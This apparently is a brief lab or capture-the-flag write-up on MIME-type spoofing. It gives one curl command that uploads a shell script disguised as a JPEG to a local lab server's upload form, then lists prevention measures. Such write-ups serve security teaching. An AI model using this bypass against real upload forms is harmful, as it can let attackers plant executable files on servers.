 # Vulnerability

MIME spoofing is used by attackers to manipulate the MIME (Multipurpose Internet Mail Extensions) type of a file to bypass security controls and potentially execute malicious code.

# Identification

We have a form with an input that allows us to upload files.

# Resolve

open your terminal on do a request
curl -X POST -F "uploaded=@/Users/tpinto-m/Desktop/script.sh;type=image/jpg" -F 'Upload=Upload' 'http://10.11.249.210/?page=upload#'

# Prevent

- Input Sanitization: Sanitize all user inputs, including file names and content
- Content Validation: Inspect the actual contents of uploaded files, not just the declared MIME type
- File Extension Checks: Verify that file extensions match the expected content type
- Use Framework
- Use secured library

# Resources

https://reqbin.com/req/c-dot4w5a2/curl-post-file
